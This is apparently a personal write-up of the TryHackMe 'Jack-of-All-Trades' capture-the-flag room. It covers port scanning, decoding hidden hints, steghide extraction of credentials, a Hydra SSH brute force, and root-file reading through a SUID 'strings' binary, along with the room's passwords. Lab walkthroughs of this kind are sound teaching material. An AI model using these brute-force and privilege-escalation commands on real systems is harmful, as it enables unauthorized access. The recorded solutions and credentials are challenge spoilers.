### **3**
## **Jack-of-All-Trades**

*   **Boot-to-root** - easy
*   **User Flag, Root Flag**
*   **Room Addr:** [https://tryhackme.com/room/jackofalltrades](https://tryhackme.com/room/jackofalltrades)

Jack is a man of a great many talents. The zoo has employed him to capture the penguins due to his years of penguin-wrangling experience, but all is not as it seems... We must stop him! Can you see through his facade of a forgetful old toymaker and bring this lunatic down?

### **1. Port Scanning:**

`nmap -p- -sS -sV -vv <target-ip>`

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.10 ((Debian))
80/tcp open  ssh     syn-ack ttl 64 OpenSSH 6.7p1 Debian 5 (protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
*   **HTTP** service on port 22!
*   **SSH** on port 80.
*   I could not see the web interface using Firefox at first, so I decided to use `curl` instead (hours later I found out I could actually use Firefox).

### **2. Using CURL and Finding Hints:**

`curl <target>:22`

```
root@ip-10-65-80-26:~# curl 10.65.149.85:22
<html>
	<head>
		<title>Jack-of-all-trades!</title>
		<link href="assets/style.css" rel=stylesheet type=text/css>
	</head>
	<body>
		
		<h1>Welcome to Jack-of-all-trades!</h1>
		<main>
			<p>My name is Jack. I'm a toymaker by trade but I can do a little of anything -- hence the name!<br>I specialise in making children's toys (no relation to the big man in the red suit - promise!) but anything you want, feel free to get in contact and I'll see if I can help you out.</p>
			<p>My employment history includes 20 years as a penguin hunter, 5 years as a police officer and 8 months as a chef, but that's all behind me. I'm invested in other pursuits now!</p>
			<p>Please bear with me; I'm old, and at times I can be very forgetful. If you employ me you might find random notes lying around as reminders, but don't worry, I <em>always</em> clear up after myself.</p>
			<p>I love dinosaurs. I have a <em>huge</em> collection of models. Like this one:</p>
			
			<p>I make a lot of models myself, but I also do toys, like this one:</p>
			
			<!--Note to self - If I ever get locked out I can get back in at /recovery.php! -->
			<!--  UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg== -->
			<p>I hope you choose to employ me. I love making new friends!</p>
			<p>Hope to see you soon!</p>
			<p id="signature">Jack</p>
		</main>
	</body>
</html>
```
*   **Summary of what we saw here:**

    > 1. `/assets` directory exists.
    > 2. `/assets/header.jpg`
    > 3. `/assets/stego.jpg`
    > 4. `/assets/jackinthebox.jpg`
    > 5. `/recovery.php`
    > 6. A base64 encoded string: `UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg==`

*   **About Base64**: Uses characters A-Z, a-z, 0-9, +, /, = (for padding).
*   Here I spent some time on the images (mostly `stego.jpg`). I downloaded them using `curl -O`, used `strings` and `exiftool` against them, and didn't find anything useful. The only thing that seemed to give the answer was `steghide`, which asked for a passphrase. So, I thought we needed to find a passphrase to see what's inside these pictures.

*   **About `steghide`**: [https://0xrick.github.io/lists/stego/](https://0xrick.github.io/lists/stego/) - [https://www.hackercoolmagazine.com/beginners-guide-to-steghide/](https://www.hackercoolmagazine.com/beginners-guide-to-steghide/)
    
    > `steghide info file` : Displays info about a file and whether it has embedded data.
    > `steghide extract -sf file` : Extracts embedded data from a file.

    

    

*   *We will come back to this info; for now, I decided to collect more information.*

### **3. Collecting More Information**

*   Let's look at the **`/assets`** directory: `curl http://<target-ip>:22/assets/`

    **New Things Found:**

    *   `/icons` directory containing a bunch of GIF icons.
    *   `style.css` --> Nothing useful inside.

    *   *We will come back to this info; for now, I decided to collect more information.*

*   Requesting **`/recovery.php`** - `curl http://<target-ip>:22/recovery.php`

    **Found:**

    *   A login page that asks for a username and password.
    *   A gibberish string.

    ```
    <body>
        <h1>Hello Jack! Did you forget your machine password again?..</h1>
        <form action="/recovery.php" method="POST">
            <label>Username:</label><br>
            <input name="user" type="text"><br>
            <label>Password:</label><br>
            <input name="pass" type="password"><br>
            <input type="submit" value="Submit">
        </form>
        <!-- GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=  -->
    </body>
    ```

### **4. What Now?**

*   At this point, I guess we need a passphrase (to see inside images) and a username + password for a login form(recovery.php) or SSH.

*   Let's decode the first string - the base64 encoded one:

    ```
    UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg==

    Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
    ```

    **Found:**

    *   **Password:** `u?WtKSraq` - This is the passphrase (not the SSH or login form password), the key to see what's inside those images in the `/assets` directory.

    *   
	
	*someone is making fun of us*
       

    *   `steghide extract -sf header.jpg` - A file called `cms.creds` is inside:

        ```
        root@ip-10-65-80-26:~/jack-of-all-trades# cat cms.creds
        Here you go Jack. Good thing you thought ahead!

        Username: jackinthebox
        Password: TplFxiSHjY
        ```

    *   I tried to find out what CMS was in use (`/recovery.php`) to see if there was a vulnerability to exploit, but couldn't find any clues.

    *   **Login to `/recovery.php` using curl:**

        `curl -X POST -d "user=jackinthebox&pass=TplFxiSHjY" -H "Content-Type: application/x-www-form-urlencoded" http://<target-ip>:22/recovery.php -vvv`
        ```
        * Connected to 10.65.149.85 (10.65.149.85) port 22 (#0)
        > POST /recovery.php HTTP/1.1
        > Host: 10.65.149.85:22
        > User-Agent: curl/7.68.0
        > Accept: */*
        > Content-Type: application/x-www-form-urlencoded
        > Content-Length: 33
        >
        * upload completely sent off: 33 out of 33 bytes
        * Mark bundle as not supporting multiuse
        < HTTP/1.1 302 Found
        < Date: Mon, 08 Dec 2025 09:09:14 GMT
        < Server: Apache/2.4.10 (Debian)
        < Set-Cookie: PHPSESSID=qjo08tkakm940i8rnr1b07i864; path=/
        < Expires: Thu, 19 Nov 1981 08:52:00 GMT
        < Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
        < Pragma: no-cache
        < Set-Cookie: login=jackinthebox%3Aa78e6e9d6f7b9d0abe0ea866792b7d84; expires=Wed, 10-Dec-2025 09:09:14 GMT; Max-Age=172800
        < location: /nnxhweOV/index.php
        < Content-Length: 0
        < Content-Type: text/html; charset=UTF-8
        <
        * Connection #0 to host 10.65.149.85 left intact
        ```

    *   At this moment, I knew I needed an interactive login to navigate to **`/nnxhweOV/index.php`**.

    *   I used `lynx` for this purpose - lynx is a text-based web browser that lets you navigate the web using your terminal (arrow keys).

        

        

### **5. What Now?**

*   We have a string we still don't know the meaning of it.

*   We have a message: *GET me a 'cmd' and I'll run it for you Future-Jack.*

*   I wanted to decode/decrypt the string I found in the `/recovery.php` curl response first:

*   For this purpose, I used [https://www.dcode.fr/cipher-identifier](https://www.dcode.fr/cipher-identifier) **&** [https://dencode.com/](https://dencode.com/).

    ```
    GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=
    ```

    

    

    

    

    

    **Result:**

    ```
    Erzrzore gung gur perqragvnyf gb gur erpbirel ybtva ner uvqqra ba gur ubzrcntr! V xabj ubj sbetrgshy lbh ner, fb urer'f n uvag: ovg.yl/2GiLD2F

    Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S
    ```

*   I think it's pointing to the credentials we found inside `header.jpg`.

*   We need to find a way to get more responses from `recovery.php`. Here I got stuck for hours. I tried to send commands in different ways using curl, uploading a shell and trying to reach it, adding `cmd` as a parameter with a command, but got no answer. Then I got a hint - I could see the interface using Firefox:

    > Search this in Firefox: **`about:config`**
    > Then search for: `network.security.ports.banned.override` --> add port number as a string (in this case, the web is hosted on port 22).

*   Navigate to `http://10.65.169.0:22/recovery.php`:

    

    

    

    

*   Create a password list and use Hydra to find Jack's SSH password:

    `hydra -l jack -P jack-pass-list ssh://<target-ip>:80` - The OpenSSH service is hosted on port 80 in this challenge.

*   **Found:** `[80][ssh] host: 10.65.169.0   login: jack   password: ITMJpGGIqg1jn?>@`

*   `ssh jack@<target-ip> -p 80`

*   You'll see an image named `user.jpg`. You can download it to the attack box using `scp -P 80 jack@<target-ip>:/home/jack/user.jpg .`. If you open the image, you'll see the first flag.

### **6. Becoming Root**

*   `sudo -l` does not work; Jack doesn't have permission to run sudo on this machine.

*   **Looking for SUID binaries** - These run with the owner's privileges (in this case, we want binaries that can run with root privileges):

    `find / -type f -user root -perm -4000 2>/dev/null`

    

*   The binary named `strings`(strings command) has the SUID bit set and is owned by root. This means that if we run `strings`, it executes with root privileges.
*   to read the root flag: `strings /root/root.txt` 

**Done.**
   

    
